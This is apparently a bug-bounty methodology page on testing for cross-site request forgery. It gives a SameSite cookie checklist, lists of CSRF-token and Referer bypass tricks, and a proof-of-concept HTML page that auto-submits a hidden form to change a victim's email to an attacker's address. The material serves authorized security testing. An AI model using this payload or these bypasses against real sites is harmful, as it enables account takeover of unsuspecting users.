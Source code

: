 ## CSRF Methodology

The first thing to check in a CSRF attack is the security headers on the session cookie.
- [ ] `SameSite=Strict` - CSRF Not Possible
- [ ] `SameSite=LAX` - CSRF Only Possible on GET Request
- [x] `SameSite=NONE` - CSRF Possible

<br/>
<br/>

**[CSRF Token Bypasses](https://github.com/JoshMorrison99/Bug-Bounty/blob/main/csrf/csrf%20bypasses.md)**<br/>
- [ ] Change single character to check if CSRF token is being validated or not
- [ ] Change request method from POST to GET
- [ ] Remove value in CSRF token
- [ ] Remove CSRF token completely
- [ ] Send a valid CSRF token from other user

<br/>
<br/>

**[Referer Bypasses](https://github.com/JoshMorrison99/Bug-Bounty/blob/main/csrf/referer%20bypasses.md)**<br/>
- [ ] Check for bad regex
- [ ] Check for referer removed

<br/>
<br/>

**General PoC**
```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
            <input type="hidden" name="csrf" value="WfF1szMUHhiokx9AHOfjRkE" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```
